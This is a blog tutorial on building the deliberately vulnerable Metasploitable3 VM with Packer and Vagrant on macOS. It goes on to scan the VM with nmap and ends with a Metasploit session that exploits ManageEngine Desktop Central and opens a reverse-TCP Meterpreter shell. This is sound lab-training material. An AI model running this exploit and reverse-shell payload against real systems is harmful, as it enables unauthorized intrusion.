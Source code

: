 ```yaml
---
title: "Build a Metasploit Test Bench with Metasploitable3 & Vagrant"
excerpt: "How to install Metasploitable3 with Vagrant on macOS"
tags:
  - metasploit
  - metasploitable
  - exploit
  - vagrant
---
```


---
Metasploitable3 is a virtual machine that is built from the ground up with a large amount of security vulnerabilities. It is intended to be used as a target for testing exploits with metasploit.

It succeed to [Metasploitable2](https://community.rapid7.com/docs/DOC-1875), a pre-built ISO image also containing security vulnerabilities. The new version is fully built on Packer and Vagrant allowing you to customize it, especially by introducing different difficulty levels. Since the system is built on-demand, it allow someone to set a variable before the build and the resulting VM will have different services more open or locked down depending on what is selected.

## Install the Build Environment

To prepare the environment you need to install the following dependencies:

* [Homebrew](http://brew.sh)
* [Packer](https://www.packer.io)
* [Vagrant](https://www.vagrantup.com)
* [Vagrant Reload Plugin](https://github.com/aidanns/vagrant-reload)
* [VirtualBox 5.1.6](https://www.virtualbox.org/wiki/Download_Old_Builds_5_1)
* Internet connection

**Note** At the time of writing, the last release of VirtualBox (5.1.8) is breaking the provisioning process. You should use VirtualBox 5.1.6 or the last testing version. For more information, check this issue on GitHub: [https://github.com/rapid7/metasploitable3/issues/41](https://github.com/rapid7/metasploitable3/issues/41).
{: .notice--warning}

As I am running a macOS system, I used Brew to install the dependencies.

```bash
# Install Packer
$ brew install packer

# Install Vagrant
$ brew install vagrant

# Install Vagrant Reload Plugin
$ vagrant plugin install vagrant-reload
```


Then clone the [Metasploitable3](https://github.com/rapid7/metasploitable3) repository from GitHub.

```bash
$ git clone https://github.com/rapid7/metasploitable3.git
$ cd metasploitable3
```

## Build the Base VM Image

Once your environment is setup, build the base VM image by running Packer. This will take a while the first time you run it since it has to download the OS installation ISO.

```bash
$ packer build windows_2008_r2.json

virtualbox-iso output will be in this color.

==> virtualbox-iso: Downloading or copying Guest additions
    virtualbox-iso: Downloading or copying: file:///Applications/VirtualBox.app/Contents/MacOS/VBoxGuestAdditions.iso
==> virtualbox-iso: Downloading or copying ISO
    virtualbox-iso: Downloading or copying: http://download.microsoft.com/download/7/5/E/75EC4E54-5B02-42D6-8879-D8D3A25FBEF7/7601.17514.101119-1850_x64fre_server_eval_en-us-GRMSXEVAL_EN_DVD.iso
    virtualbox-iso: Download progress: 1%
    virtualbox-iso: Download progress: 3%
    virtualbox-iso: Download progress: 5%

[...]

==> virtualbox-iso: Unregistering and deleting virtual machine...
==> virtualbox-iso: Running post-processor: vagrant
==> virtualbox-iso (vagrant): Creating Vagrant box for 'virtualbox' provider
    virtualbox-iso (vagrant): Copying from artifact: output-virtualbox-iso/packer-virtualbox-iso-1478461854-disk1.vmdk
    virtualbox-iso (vagrant): Copying from artifact: output-virtualbox-iso/packer-virtualbox-iso-1478461854.ovf
    virtualbox-iso (vagrant): Renaming the OVF to box.ovf...
    virtualbox-iso (vagrant): Using custom Vagrantfile: vagrantfile-windows_2008_r2.template
    virtualbox-iso (vagrant): Compressing: Vagrantfile
    virtualbox-iso (vagrant): Compressing: box.ovf
    virtualbox-iso (vagrant): Compressing: metadata.json
    virtualbox-iso (vagrant): Compressing: packer-virtualbox-iso-1478461854-disk1.vmdk
Build 'virtualbox-iso' finished.
```

## Provisioning with Vagrant

After the base Vagrant box is created you need to add it to your Vagrant environment.

```bash
$ vagrant box add windows_2008_r2_virtualbox.box --name=metasploitable3
==> box: Box file was not detected as metadata. Adding it directly...
==> box: Adding box 'metasploitable3' (v0) for provider: 
    box: Unpacking necessary files from: file:///Users/ax/Downloads/metasploitable3/windows_2008_r2_virtualbox.box
==> box: Successfully added box 'metasploitable3' (v0) for 'virtualbox'!
```

Then, to start the provisioning process, run the command `vagrant up`. This will start up the VM and run all of the installation and configuration scripts necessary to set everything up. This takes about 20 minutes.

```bash
$ vagrant up
Bringing machine 'default' up with 'virtualbox' provider...
==> default: Importing base box 'metasploitable3'...
==> default: Matching MAC address for NAT networking...
==> default: Setting the name of the VM: metasploitable3_default_1478815443621_32649
==> default: Clearing any previously set network interfaces...
==> default: Preparing network interfaces based on configuration...
    default: Adapter 1: nat
    default: Adapter 2: hostonly
==> default: Forwarding ports...
    default: 3389 (guest) => 3389 (host) (adapter 1)
    default: 22 (guest) => 2222 (host) (adapter 1)
    default: 5985 (guest) => 55985 (host) (adapter 1)
    default: 5986 (guest) => 55986 (host) (adapter 1)

[...]

```

If the provisioning went well, the Metasploitable3 is ready to be used.

## Check the Virtual Machine

To start exploiting the various services, I suggest you to check the open port on the virtual machine by using **Nmap**.

```bash
$ nmap -sV -p- 172.28.128.3

Starting Nmap 7.30 ( https://nmap.org )
Nmap scan report for 172.28.128.3
Host is up (0.0030s latency).
Not shown: 65516 filtered ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
22/tcp    open  ssh           OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http          Microsoft IIS httpd 7.5
1617/tcp  open  nimrod-agent?
4848/tcp  open  ssl/http      Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8020/tcp  open  http          Apache httpd
8022/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
8027/tcp  open  unknown
8080/tcp  open  http          Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
8282/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
8383/tcp  open  ssl/http      Apache httpd
8484/tcp  open  http          Jetty winstone-2.8
8585/tcp  open  http          Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
9200/tcp  open  http          Elasticsearch REST API 1.1.1 (name: Inertia; Lucene 4.7)
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49263/tcp open  unknown
49264/tcp open  tcpwrapped
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 257.28 seconds
```

As you can see, there are many services running on the VM. Let's try to get a root shell by exploiting one of them.

## Quick Exploit with Metasploit

I choose to exploit the ManageEngine server of the virtual machine by using the **exploit/windows/http/manageengine_connectionid_write** exploit module from Metasploit.

```bash
msf > use exploit/windows/http/manageengine_connectionid_write
msf exploit(manageengine_connectionid_write) > show options 

Module options (exploit/windows/http/manageengine_connectionid_write):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      8020             yes       The target port
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path for ManageEngine Desktop Central
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   ManageEngine Desktop Central 9 on Windows


msf exploit(manageengine_connectionid_write) > set RHOST 172.28.128.3
RHOST => 172.28.128.3
msf exploit(manageengine_connectionid_write) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(manageengine_connectionid_write) > set LHOST 172.28.128.4
LHOST => 172.28.128.4

msf exploit(manageengine_connectionid_write) > exploit 

[*] Started reverse TCP handler on 172.28.128.4:4444 
[*] Creating JSP stager
[*] Uploading JSP stager WJsoA.jsp...
[*] Executing stager...
[*] Sending stage (957999 bytes) to 172.28.128.3
[*] Meterpreter session 1 opened (172.28.128.4:4444 -> 172.28.128.3:49522)
[+] Deleted ../webapps/DesktopCentral/jspf/WJsoA.jsp

meterpreter > getuid 
Server username: NT AUTHORITY\LOCAL SERVICE
meterpreter > 
```

Yay ! We got a remote Meterpreter shell. Now it's your turn, have fun !


## Resources

* [Official Metasploitable3 Repository](https://github.com/rapid7/metasploitable3)
* [Metasploitable3 Wiki](https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities)
* [VirtualBox (Old Builds)](https://www.virtualbox.org/wiki/Download_Old_Builds_5_1)
* [Packer.io](https://www.packer.io)
* [Vagrant](https://www.vagrantup.com)
* [Vagrant Reload Plugin](https://github.com/aidanns/vagrant-reload)
